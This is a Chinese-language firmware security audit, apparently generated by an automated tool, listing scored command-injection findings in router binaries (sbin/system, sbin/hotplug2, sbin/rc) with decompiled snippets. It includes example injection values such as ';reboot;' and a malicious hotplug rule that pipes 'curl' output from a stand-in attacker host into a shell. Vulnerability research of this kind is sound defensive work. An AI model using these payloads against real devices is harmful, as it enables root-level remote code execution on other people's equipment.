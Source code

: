 - **文件路径:** `sbin/system`
- **位置:** `sbin/system:0 (main) 0xcd24`
- **类型:** command_execution
- **综合优先级分数:** **8.95**
- **风险等级:** 9.0
- **置信度:** 9.5
- **触发可能性:** 8.0
- **查询相关性:** 9.5
- **阶段:** N/A
- **描述:** 高危命令注入漏洞：程序使用'sprintf(buffer, "%s %s", "mkdir -p", nvram_get("friendly_name"))'构建命令，其中'friendly_name'值未经任何过滤直接拼接。触发条件：攻击者通过其他接口（如Web API）设置恶意NVRAM值（如';reboot;'），当系统执行初始化流程时触发。安全影响：以root权限执行任意命令，成功利用概率高。
- **代码片段:**
  ```
  uVar11 = sym.imp.acosNvramConfig_get(*0xcd64);
  sym.imp.sprintf(iVar24 + -0x1e8, *0xccfc, *0xccf8, uVar11);
  sym.imp.system(iVar24 + -0x1e8);
  ```
- **关键词:** friendly_name, acosNvramConfig_get, sprintf, system, mkdir -p
- **备注:** 关联攻击路径：Web接口设置friendly_name → NVRAM存储 → system()执行

---
### command_injection-hotplug2-rules_manipulation

- **文件路径:** `sbin/hotplug2`
- **位置:** `sbin/hotplug2:0xa8d0 fcn.0000a8d0`
- **类型:** command_execution
- **综合优先级分数:** **8.9**
- **风险等级:** 9.0
- **置信度:** 9.0
- **触发可能性:** 8.5
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** hotplug2规则文件驱动的命令注入漏洞。触发条件：1) 攻击者篡改/etc/hotplug2.rules文件内容 2) 规则包含SYSTEM_ACTION且命令含环境变量占位符（如$VAR）。漏洞原理：a) 函数fcn.0000a73c执行环境变量替换时未过滤内容 b) 替换结果直接传入system()执行。攻击者可构造恶意规则（如PATH=/tmp;curl${IFS}attacker.com | sh），当热插拔事件触发规则时实现RCE。攻击面：网络接口（若www用户可写规则文件）或物理接口（USB热插拔）。
- **代码片段:**
  ```
  uVar9 = fcn.0000a73c(uVar5,param_1);
  iVar11 = sym.imp.system();
  ```
- **关键词:** fcn.0000a73c, system, SYSTEM_ACTION, /etc/hotplug2.rules
- **备注:** 需验证规则文件权限：若www用户可写/etc/hotplug2.rules则形成完整WEB→配置篡改→RCE链。关联知识库备注：'需验证配置文件内容是否包含用户可控参数'

---
### command_injection-rc-0x0000efd0

- **文件路径:** `sbin/rc`
- **位置:** `rc:0x0000efd0`
- **类型:** command_execution
- **综合优先级分数:** **8.85**
- **风险等级:** 9.5
- **置信度:** 9.0
- **触发可能性:** 7.0
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 高危命令注入漏洞：rc中函数fcn.0000ed80(0x0000efd0)通过system执行全局指针*0xfd88/*0xfd8c指向的命令。触发条件：当nvram_get(*0xfd80)返回空或strcmp(*0xfd84)不匹配时。关键缺陷：命令字符串完全由NVRAM值控制且未经验证，攻击者可通过HTTP接口/NVRAM设置污染输入，实现任意命令执行。
- **代码片段:**
  ```
  if ((iVar2 == 0) || (iVar2 = sym.imp.strcmp(iVar2,*0xfd84), iVar2 != 0)) {
      sym.imp.system(*0xfd88);
      sym.imp.system(*0xfd8c);
  }
  ```
